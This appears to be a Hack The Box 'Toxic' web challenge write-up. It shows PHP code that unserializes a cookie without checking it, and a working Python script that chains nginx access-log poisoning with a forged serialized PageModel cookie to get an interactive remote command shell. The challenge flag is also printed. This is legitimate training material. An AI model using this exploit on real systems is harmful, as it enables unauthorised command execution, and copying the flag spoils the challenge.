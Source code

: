 ```yaml
---
layout: single
title: Toxic [Web] - Hack The Box
excerpt: "ECSC Prep"
date: 2021-12-21
classes: wide
header:
  teaser: 
  teaser_home_page: true
  icon: /assets/images/hackthebox.webp
categories:
  - HackTheBox
  - Web Challenge
tags:  
  - Exploiting PHP deserialization
---
```


### Vulnerable code
```php
<?php
spl_autoload_register(function ($name){
    if (preg_match('/Model$/', $name))
    {
        $name = "models/${name}";
    }
    include_once "${name}.php";
});

if (empty($_COOKIE['PHPSESSID']))
{
    $page = new PageModel;
    $page->file = '/www/index.html';

    setcookie(
        'PHPSESSID', 
        base64_encode(serialize($page)), 
        time()+60*60*24, 
        '/'
    );
} 

$cookie = base64_decode($_COOKIE['PHPSESSID']);
unserialize($cookie);

```

Cookie: PHPSESSID=Tzo5OiJQYWdlTW9kZWwiOjE6e3M6NDoiZmlsZSI7czoxNToiL3d3dy9pbmRleC5odG1sIjt9<br>
Decode: O:9:"PageModel":1:{s:4:"file";s:15:"/www/index.html";}

<br><br>


### Exploiting PHP deserialization<br>
```python
#!/usr/bin/python3
#Dhmosfunk
import requests
import os
os.system("clear")
print("[*] HTB Toxic Web Challenge [Exploiting PHP deserialization]")

def injector(command,url):
	inj=requests.get(url, headers = {"User-Agent": "<?php system('"+str(command)+"'); ?>"})



HOST='http://138.68.174.27:31645/'
PHPSESSID = 'Tzo5OiJQYWdlTW9kZWwiOjE6e3M6NDoiZmlsZSI7czoyNToiL3Zhci9sb2cvbmdpbngvYWNjZXNzLmxvZyI7fQ%3d%3d' #Base64 Decoded Cokkie [O:9:"PageModel":1:{s:4:"file";s:25:"/var/log/nginx/access.log";}]


while 1:
	cmd=input("> ")
	os.system("clear")
	if cmd=="exit":
		break 
		
	print("[*] Trigger the command!")
	injector(cmd,HOST)


	req=requests.get(HOST,cookies = {"PHPSESSID":str(PHPSESSID)})
	
	print(req.text)
	
```


### Flag => HTB{P0i5on_1n_Cyb3r_W4rF4R3?!}
